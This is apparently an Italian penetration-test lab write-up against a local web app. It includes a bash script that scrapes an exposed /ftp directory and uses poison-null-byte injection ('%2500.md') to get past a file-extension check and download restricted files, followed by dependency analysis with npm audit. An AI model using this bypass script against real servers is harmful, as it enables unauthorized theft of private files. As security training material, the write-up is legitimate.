



# 1. Data exfiltration
## Introduzione
La data exfiltration è il processo mediante il quale un attaccante riesce a sottrarre informazioni sensibili da un sistema informatico senza autorizzazione. Diversamente dalla semplice compromissione di un sistema, l'esfiltrazione comporta l'estrazione attiva di dati — spesso in modo furtivo, evitando di essere rilevata dai sistemi di sicurezza.

## Data exfiltration dei file nella cartella FTP
Come scoperto tramite information gathering e vulnerability assessment, la cartella FTP rimane liberamente accessibile nonostante sia una cartella che contenga dei file privati ed è possibile ottenere l'accesso ai dati tramite il Poison Null Byte, come è stato confermato nella fase di exploitation.

A questo punto è possibilee effettuare data exfiltration e scaricare sul proprio dispositivo personale tutti i file riservati contenuti all'interno della cartella FTP. Si cerca di automatizzare l'intero processo di exfiltration.

### Procedimento
1. Creare un file denominato scraping.sh che contiene il seguente codice:
```sh
#!/bin/bash

# URL e cartella in cui verranno scaricati i file
BASE_URL="http://127.0.0.1:3000/ftp"
DEST_DIR="ftp_downloads"

# Crea la cartella di destinazione
mkdir -p "$DEST_DIR"

# FILE_LIST conterrà tutti i link presenti nella directory FTP
# Legge il file HTML di FTP e si salva tutti i link href, ovvero i file presenti all'intenro della pagina, situati al suo interno
FILE_LIST=$(curl -s "$BASE_URL/" | grep -oP '(?<=href=")[^"]+')

# Per ognuno dei file trovati
for file in $FILE_LIST; do
    # Escludi la directory corrente o link "vuoti"
    if [[ "$file" == "." || -z "$file" ]]; then
        continue
    fi

    # Controlla se il file termina con .md o .pdf
    if [[ "$file" =~ \.md$ || "$file" =~ \.pdf$ ]]; then
        DOWNLOAD_NAME="$file"
    else
    # Se non termina con .md o pdf, esegui un attacco tramite Null Byte Injection
        DOWNLOAD_NAME="${file}%2500.md"
    fi

    echo "Dowloading $file"
    
    # Scarica e salva il file
    curl -s -o "$DEST_DIR/$file" "$BASE_URL/$DOWNLOAD_NAME"
done

echo "Scraping completed."
```

2. Aprire la bash e spostarsi nella cartella in cui è presente il file appena creato.
3. Eseguire lo script usando il comando:
```sh
bash scraping.sh
```
4. I file scaricati saranno situati dentro la sottocartella `ftp_downloads`.

### Prova del procedimento



# 2. Information gathering dentro il sistema compromesso (Pillaging)
## Introduzione
Pillaging è un termine molto usato in ambito pentest per indicare la raccolta sistematica di informazioni sensibili dopo aver compromesso un sistema.

## Package.json
Dopo essere entrato in possesso dei file contenuti dentro la cartella FTP, si è andati alla ricerca di qualsiasi informazioni che possa essere usato per ottenere informazioni e identificare ulteriori punti d'attacco dell'applicazione.

In particolare, un file che salta all'occhio è `package.json` che rappresenta un file contente informazioni creati dal software `npm` usato per gestire `node.js`. All'interno di questo file sono contenute tutte le librerie e dipendenze usate da Node per gestire il server stesso. Si procede all'analisi delle librerie per scovare dipendenze vulnerabili.

### Prodedimento
1. Si apre il file per un analisi manuale del file e trovare che esiste la sezione dipendenze.



2. Si utilizza il comando:
```sh
npm audit --package.json > audit-report.txt
```
Per creare un report di eventuali dipendenze vulnerabili.

3. Il report, in questo caso, ha trovato 172 vulnerabilità di cui: 

    * 6 vulnerabilità di bassa gravità
    * 53 vulnerabilità di media gravità
    * 71 vulnerabilità di alta gravità
    * 42 vulnerabilità critiche

### Prova del procedimento
